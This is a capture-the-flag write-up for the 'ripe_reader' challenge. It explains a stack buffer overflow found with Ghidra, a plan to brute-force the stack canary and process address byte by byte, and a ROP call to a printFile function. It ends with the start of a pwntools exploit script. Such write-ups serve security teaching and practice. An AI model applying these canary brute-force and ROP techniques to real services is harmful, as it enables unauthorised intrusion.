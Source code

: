 All mitigations in place.
    
### Decompile with Ghidra

There are two functions worth analyzing: `selectImg` and `printFile`.

![](selectimg.png)

Line 18 contains the vulnerability; `recv` will accept up to `0x400` bytes into a buffer (`local_48`) that is statically allocated for `56` bytes.  However, the stack canary will detect any buffer overflow attempt and kill the child with:

```
*** stack smashing detected ***: <unknown> terminated
```

Since the canary remains unchanged, it can be brute-forced, byte-by-byte.

> _See [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a detailed example._

Getting past the canary is only the first step.  There are no free leaks, so the same method to obtain the canary will need to be used (twice) to get the process base address.  Once the process base address has been brute-forced, leaking libc to get a shell is next (_maybe_--untested); however for this challenge `ripe_reader` provides a `printFile` function that can be passed `./flag.txt`--this is a lot easier.

> That _is_ a guess, BTW.  Worse case, we'll have to work _harder_.

Checking to see if we're lucky:

```bash
# strings ripe_reader | grep flag.txt
./flag.txt
```

Yep, good guess.


## Exploit

### Attack Plan

1. First Pass: Brute-force stack canary
2. Second Pass: Brute-force process address LSBytes
3. Third Pass: Brute-force entire process address
4. Final Pass: ROP call `printFile` to get the flag

### Initial Setup

```python
#!/usr/bin/python3

from pwn import *
import sys

binary = ELF('ripe_reader')

context.log_level = 'WARN'
server = sys.argv[1]
port = int(sys.argv[2])
buf = (0x48 - 0x10) * b'A'
x = [i for i in range(256) if i != 10 ]
canary = p8(0)
```
